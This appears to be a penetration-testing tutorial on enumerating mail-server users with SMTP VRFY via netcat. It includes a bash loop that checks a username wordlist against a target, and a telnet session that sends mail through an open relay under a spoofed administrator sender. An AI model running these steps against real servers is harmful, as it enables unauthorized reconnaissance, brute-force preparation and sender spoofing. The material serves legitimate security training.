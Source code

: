 # SMTP Mail User Enumeration
In this module we will learn how to attempt to enumerate users from a target system that is running Dovecot or Exim, or some other form of mail server.
## User List
When using **any** type of brute force attack, it is VERY important to enumerate as much as possible to build the best word list, in our case is a user list. In most cases, at least, add the enumerated hostname as a user. Look for weblogs and anything else that may contain reused UIDs, email addresses, or more.
### Using Netcat
To use Netcat to connect to a mail server simply do:

`root@kali:~# nc (TARGET IP ADDRESS) 25`

Next, we can use some helpful commands that could tell us more about the system. In this case, we wuse `VRFY`

```
wnl8:/pwnt/smtp# nc 192.168.161.129 25
220 vulnix ESMTP Postfix (Ubuntu)
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY dovecot
252 2.0.0 dovecot
VRFY nonexistentuser
550 5.1.1 <nonexistentuser>: Recipient address rejected: User unknown in local recipient table
^C
wnl8:/pwnt/smtp#
```

As you can see, when a valid user is identified by the mail server via the `VRFY` command, it returned `252 2.0.0 (USERNAME)` and when an invalid user was tested via `VRFY` the service returned `550 5.1.1 (USERNAME)`

### SMTP User Enumeration Automation
We can easily script this process by echoing the VRFY command directly into a netcat connection command for each name in a word list against the target server as so,
```
#!/bin/bash
while read user;
 do
  echo VRFY $user | nc -nv -w (TARGET IP ADDRESS) (TARGET SMTP PORT) 2>/dev/null | egrep "^252"
 done
< /path/to/usernames.txt
```
## SMTP EMAIL RELAY TEST
If you can connetc to the email server via telnet, you can test to see if we can send email via the server. Usually nmap will let us know whether or not the email server is a "relay" server with a message like,
```
25/tcp open  smtp    syn-ack ttl 55
| smtp-open-relay: Server is an open relay (13/16 tests)
|  MAIL FROM:<> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@nmap.scanme.org> -> RCPT TO:<relaytest@nmap.scanme.org>
```
I could not get the NSE script to work for this (almost ever) so I found that we can test the service manually like so,
```
root@demon-2.4.4:~/# telnet (TARGET IP ADDRESS) 25
Trying (TARGET IP ADDRESS)...
Connected to (TARGET IP ADDRESS).
Escape character is '^]'.
220 *********************************************************************************
EHLO (TARGET DOMAIN).com
250-(TARGET SUBDOMAIN).(TARGET DOMAIN).com Hello (TARGET DOMAIN).com [(YOUR IP ADDRESS)], pleased to meet you
250-STARTTLS
250-PIPELINING
250-8BITMIME
250 XXXA
MAIL FROM:<administrator@(TARGET DOMAIN).com>
250 Sender <administrator@(TARGET DOMAIN).com> OK
RCPT TO:<(YOUR EMAIL ADDRESS)@gmail.com> NOTIFY=success,failure
250 Recipient <(YOUR EMAIL ADDRESS)@gmail.com> OK
DATA    
354 Start mail input; end with <CRLF>.<CRLF>
Subject:This is a test

This is a test email.
.
250 Ok: queued as mailFwDDga
QUIT
221 emailarchiver.(TARGET DOMAIN).com Goodbye (TARGET DOMAIN).com, closing connection
Connection closed by foreign host.
```
